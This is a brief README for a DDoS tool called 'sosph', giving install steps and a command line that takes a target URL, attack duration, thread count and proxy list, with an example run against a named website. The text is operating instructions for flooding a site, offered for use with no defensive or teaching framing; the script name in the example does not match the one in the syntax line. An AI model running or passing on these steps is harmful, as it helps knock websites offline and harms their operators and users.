 # sosph

DDOS BY SOSPH

SETUP & RUN

cd sosph

npm i fake-useragent

node sosph.js + URL/TARGET + TIME + THREADS + LIST PROXY :V

EXAMPLE :

node HTTPS-BYPASSv2.js https://dagtriDepTrai.com 60 5 PROXYVIP.txt
